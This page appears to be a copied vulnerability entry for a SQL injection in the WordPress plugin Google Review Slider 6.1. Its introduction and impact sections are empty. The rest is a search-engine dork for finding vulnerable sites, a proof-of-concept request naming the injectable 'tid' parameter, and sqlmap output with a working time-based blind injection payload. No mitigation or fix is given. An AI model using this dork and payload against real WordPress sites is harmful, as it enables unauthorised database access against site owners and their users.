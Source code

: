 # WordPress Plugin - Google Review Slider 6.1 SQL Injection

> 原文：[http://book.iwonder.run/0day/Wordpress/2.html](http://book.iwonder.run/0day/Wordpress/2.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

inurl:"/wp-content/plugins/wp-google-places-review-slider/"

POC :

```
 GET/wp-admin/admin.php?page=wp_google-templates_posts&tid=1&_wpnonce=***
 &taction=edit HTTP/1.1 
```

sqlmap result

```
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: tid (GET)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: page=wp_google-templates_posts&tid=1 AND (SELECT 5357 FROM
(SELECT(SLEEP(5)))kHQz)&_wpnonce=***&taction=edit 
```

